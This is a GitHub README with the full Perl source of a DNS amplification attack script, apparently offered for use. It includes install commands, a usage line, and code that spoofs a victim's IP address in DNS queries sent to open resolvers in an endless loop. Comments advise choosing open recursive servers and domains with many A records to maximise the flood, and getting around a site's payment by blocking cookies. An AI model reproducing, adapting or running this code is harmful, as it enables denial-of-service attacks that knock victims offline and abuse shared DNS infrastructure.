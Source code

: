 ![Bombarding](http://cdn.whatismyipaddress.com/images-v4/hacking.png)

# DNS-Amp-Attack
Perl Script for a DNS Amplification Attack

Install required packages:
sudo apt-get install libnet-rawip-perl libnet-dns-perl

Get the script which generates the attack:
https://github.com/Bombarding/DNS-Amp-Attack.git

Execute the script:
sudo ./attack.pl IP address




#!/usr/bin/perl
# Get Net::RawIP at http://search.cpan.org/CPAN/authors/id/S/SZ/SZABGAB/Net-RawIP-0.21_01.tar.gz
# cpan Net::DNS:Resolver seems to work fine on each machine I throw it on, as well.
# PS: To see if you can spoof, check out the ANA Spoofer project.
# http://spoofer.csail.mit.edu/
#
# Written by Shadow
# irc.dark-irc.net #thecorpz
# chemshadow@gmail.com

use Net::DNS::Resolver;
use Net::RawIP;
use strict;

# Populate this list with domain names with lots of A records. IRC server DNS pools are a good place to look.
# Maybe get a cheap throwaway domain and add your own A records.
my @name = ("irc.efnet.net", "irc.dal.net", "irc.undernet.org", "irc.freenode.net");
my $names = "3"; #number of entries in @name, minus one.

# Populate this list with ONLY open, recursive dns servers.
# http://www.dnsstuff.com/ - Block their cookies to use the site w/o paying.
my $nameservers;
# my @nameservers = ("205.234.223.168", "64.202.117.121", "208.80.184.69", "200.255.59.150"); #4 entries.
my @nameservers = ("10.131.1.3", "10.131.1.5"); #4 entries.

# my $reflectors = "3"; # Number of entries in @nameservers, minus one.
my $reflectors = "1"; # Number of entries in @nameservers, minus one.

my $debug = 1; # Change to 0 if you don't wanna have your console flooded.

##########################
# END USER CONFIGURATION #
##########################

my $str;
my $name;
my $src_ip;
my $reflector;
$src_ip = $ARGV[0];

if ($ARGV[0] eq '') { print "Usage: " . $0 . " <IP>\n"; exit(0); }
print ("Hitting $ARGV[0]\n");

for (my $i=0; $i < 256; $i++) {
    # Make DNS packet
    $str = @name[int rand($names)];                            # Select entry from @name
    my $dnspacket = new Net::DNS::Packet($str, "A", "IN");
    my $dnsdata = $dnspacket->data;
    my $sock = new Net::RawIP({udp=>{}});
    # send packet
    # $str = @name[int rand($names)];                            # Select entry from @name
    $reflector = $nameservers[int rand($reflectors)];          # Select entry from @nameservers
    $sock->set({ip => {
                saddr => $src_ip, daddr => "$reflector", frag_off=>0,tos=>0,id=>1565},
                udp => {source => 53,
                dest => 53, data=>$dnsdata
                } });
     $sock->send;
     if ($debug eq "1") { print "Me -> " . $reflector . "(DNSing " . $str . ")" . " -> " . $src_ip . " \n"; }
     $i = 0;
}
exit(0);
